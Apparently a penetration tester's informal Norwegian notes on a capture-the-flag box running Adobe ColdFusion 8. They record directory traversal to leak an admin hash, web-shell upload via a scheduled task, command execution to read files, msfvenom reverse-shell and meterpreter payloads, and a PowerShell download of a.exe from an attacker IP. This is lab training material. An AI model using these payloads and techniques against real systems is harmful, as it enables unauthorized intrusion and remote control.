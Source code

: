 ## arctic 10.10.10.11

`135/tcp   open  msrpc`

`8500/tcp  open  fmtp`

`49154/tcp open  unknown`

Macromedia ColdFusion MX Server edition 6?

Adobe ColdFusion 8

får login med

`10.10.10.11:8500/CFIDE/administrator/enter.cfm?`

og passord prompt ved

`http://10.10.10.11:8500/CFIDE/wizards/common/_logintowizard.cfm`

[http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/](http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/)

avsløre en mappe. wooooooo

[http://10.10.10.11:8500/CFIDE/adminapi/base.cfc?wsdl](http://10.10.10.11:8500/CFIDE/adminapi/base.cfc?wsdl) for å vise versjon 8.0.1

\#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F\[\[E&gt;\[$\_6& \Q&gt;\[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true

javascript:alert\(hex\_hmac\_sha1\(document.loginform.salt.value,document.loginform.cfadminPassword.value\)\)

51681279BE771DE147003FBA6A6E4E557F833282

sha1 decrypt = **happyday**

debugging and logging. add scheduled task -&gt; upload cfm shell

[https://jumpespjump.blogspot.no/2014/03/attacking-adobe-coldfusion.html](https://jumpespjump.blogspot.no/2014/03/attacking-adobe-coldfusion.html)

[https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

[http://www.pwnag3.com/2013/04/coldfusion-for-pentesters-part-2.html](http://www.pwnag3.com/2013/04/coldfusion-for-pentesters-part-2.html)

[http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/index.html](http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/index.html)

bra cfm shell her [https://github.com/fuzzdb-project/fuzzdb](https://github.com/fuzzdb-project/fuzzdb)

`whoami > C:\ColdFusion8\wwwroot\out.txt`

**arctic/tolis**

kjøre kommandoer til jeg finner noe gøy

Microsoft Windows **Server** **2008 R2 Standard x64**

/c dir "c:\coldfusion8\wwwroot\CFIDE" &gt; c:\coldfusion8\wwwroot\out.txt

/c dir "c:\coldfusion8\lib\neo-datasource.xml" &gt; c:\coldfusion8\wwwroot\out.txt

passord wsagavF3noHWGA8xe7rd4w

/c dir C:\Users\Administrator &gt; c:\coldfusion8\wwwroot\out.txt - ingenting

/c dir "C:\Users\All Users\Desktop" &gt; c:\coldfusion8\wwwroot\out.txt

/c type "c:\users\tolis\Desktop\user.txt" &gt; c:\coldfusion8\wwwroot\out.txt

```
dir c:\ /s /b /o:gn - viser alle fier i subdirs
```

får ut **02650d3a69a70780c302e146a6cb96f3**

prøvd flere reverse shells uten hell

prøvd å laste opp netcat også, men no dice

jsp shell funker. men bare med netcat?

ssl error i metasploit

tasklist /v

fant en unquoted service path for coldfusion8

`wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """`

`ColdFusion 8 .NET Service                               ColdFusion 8 .NET Service        C:\ColdFusion8\jnbridge\CF8DotNetsvc.exe`

sc stop "ColdFusion 8 .NET Service"

funket ikke

whoami &gt; c:\coldfusion8\wwwroot\out.txt

kanskje applocker er enablet?

LFI?

[http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../Users/Tolis/Desktop/user.txt en](http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../Users/Tolis/Desktop/user.txt en)

% på slutten der

In the cfexec.cfm I executed c:\windows\system32\cmd.exe /c blablabla

1. That blablabla is a command obtanied with:
2. msfvenom -p windows/powershell\_reverse\_tcp lhost=YOURIP lport=PORT -f exe \| strings \| grep powershell &gt; out.ps1 - copypaste this
3. Before you execute that, you should have obviusly a handler on your machine.
4. With this you have a powershell shell like Tolis user.
5. Now you have to obtain meterpreter. Create a payload like this
6. msfvenom -p windows/meterpreter\_reverse\_tcp lhost YOURIP lport=PORT -f exe 
   &gt;
    a.exe
7. Move It to /var/www/html on your system and start your http server.
8. In the powershell shell execute:
9. $client = new-object System.Net.WebClient
10. $client.DownloadFile\("http://10.10.12.238/a.exe", "c:\users\tolis\a.exe"\)
11. And now start a handler on your machine and execute on powershell
12. .\a.exe
13. And now you will have a meterpreter session like Tolis.

migrate to some other x64 process.

exploit/windows/local/ms10\_092\_schelevator no work

ms16-032 no work

rotten potato? no work

$client.DownloadFile\("http://10.10.12.238/a.exe", "c:\users\tolis\a.exe"





download c:\Users\tolis\Desktop\user.txt



user.txt **02650d3a69a70780c302e146a6cb96f3**

